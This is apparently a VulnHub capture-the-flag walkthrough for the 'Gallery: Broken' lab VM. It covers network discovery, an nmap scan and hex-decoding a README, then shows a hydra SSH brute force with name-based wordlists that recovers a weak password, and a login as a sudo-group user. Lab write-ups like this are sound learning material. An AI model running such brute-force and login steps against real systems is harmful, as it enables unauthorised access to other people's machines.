 # Gallery: Broken

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.251 00:0c:29:05:05:03       VMware, Inc.
192.168.127.254 00:50:56:f1:df:13       VMware, Inc.
```

The ip address is `192.168.127.251`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p22,80 -sC -sV -v -oN nmap.out 192.168.127.251

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:5e:bf:8a:49:a3:13:fa:0d:34:b8:db:26:57:79:a7 (RSA)
|   256 20:d7:72:be:30:6a:27:14:e1:e6:c2:16:7a:40:c8:52 (ECDSA)
|_  256 84:a0:9a:59:61:2a:b7:1e:dd:6e:da:3b:91:f9:a0:c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:05:05:03 (VMware)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 there is nothing but afew image and a readme file which has HEX info in it, so i turned it to ASCII :

```bash
root@kali: cat README.md | xxd -r -p | head

����JFIF��Compressed by jpeg-recompress���
...
```

as it showd it is compressed by jpeg recompress so just change the extension to jpeg:

```bash
root@kali: cat README.md | xxd -r -p > image.jpeg
```

now open it in browser or image viewer :


![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fa1cb46-8150-4082-affb-a51799429005)


there is nothing useful in this picutre, so i tried to enumerate the web directory with different methods :

- Enumerating files
- Enumerating directories
- Bruteforcing with user bob, lead to nothing again
- Checking all images metadata

## 3.Gaining Shell

i just got frustrated with this CTF, but for the last try i just used image names as user and password and tried to brute force the ssh :

```text
root@kali: cat user.txt
broken
5terre
forest
lights
mountains
gallery

root@kali: cat pass.txt
broken
5terre
forest
lights
mountains
gallery
```

```bash
root@kali: hydra -L user.txt  -P pass.txt -v 192.168.127.251 ssh -t 5

INFO] Testing if password authentication is supported by ssh://broken@192.168.127.251:22
[INFO] Successful, password authentication is supported by ssh://192.168.127.251:22
[22][ssh] host: 192.168.127.251   login: broken   password: broken
```

now we can ssh to target :

```bash
root@kali: ssh broken@192.168.127.251

Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

762 packages can be updated.
458 updates are security updates.

Last login: Sat Jan 27 02:51:54 2024 from 192.168.127.128

broken@ubuntu:~$ id
uid=1000(broken) gid=1000(broken) groups=1000(broken),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```










